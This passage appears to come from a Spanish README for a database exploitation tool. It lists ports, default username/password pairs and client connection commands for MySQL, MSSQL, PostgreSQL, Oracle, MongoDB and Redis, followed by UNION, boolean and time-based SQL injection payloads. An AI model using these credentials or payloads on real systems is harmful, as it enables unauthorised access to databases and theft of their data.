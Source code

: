 ### Bases de Datos Soportadas

El sistema puede detectar y explotar las siguientes bases de datos:

#### 🐬 MySQL
- **Puerto**: 3306
- **Credenciales por defecto**: root/root, admin/admin, mysql/mysql
- **Comandos de conexión**: `mysql -h IP -u usuario -p`

#### 🏢 MSSQL (Microsoft SQL Server)
- **Puerto**: 1433
- **Credenciales por defecto**: sa/sa, admin/admin, administrator/admin
- **Comandos de conexión**: `sqlcmd -S IP,1433 -U usuario -P contraseña`

#### 🐘 PostgreSQL
- **Puerto**: 5432
- **Credenciales por defecto**: postgres/postgres, admin/admin, root/root
- **Comandos de conexión**: `psql -h IP -U usuario -d postgres`

#### 🏛️ Oracle
- **Puerto**: 1521
- **Credenciales por defecto**: system/system, sys/sys, admin/admin
- **Comandos de conexión**: `sqlplus usuario/contraseña@IP:1521/XE`

#### 🍃 MongoDB
- **Puerto**: 27017
- **Credenciales por defecto**: admin/admin, root/root, user/user
- **Comandos de conexión**: `mongo mongodb://usuario:contraseña@IP:27017/admin`

#### 🔴 Redis
- **Puerto**: 6379
- **Credenciales por defecto**: default/, admin/admin
- **Comandos de conexión**: `redis-cli -h IP -p 6379 -a contraseña`

### Técnicas de SQL Injection

#### 💉 UNION-based
```sql
' UNION SELECT 1,2,3,4,5--
' UNION SELECT user(),database(),version(),4,5--
' UNION SELECT table_name,column_name,3,4,5 FROM information_schema.columns--
```

#### 🔍 Boolean-based
```sql
' OR '1'='1
' OR 1=1--
' AND 1=1--
' AND 1=2--
```

#### ⏰ Time-based
```sql
'; WAITFOR DELAY '00:00:05'--
' OR SLEEP(5)--
'; SELECT SLEEP(5)--
```

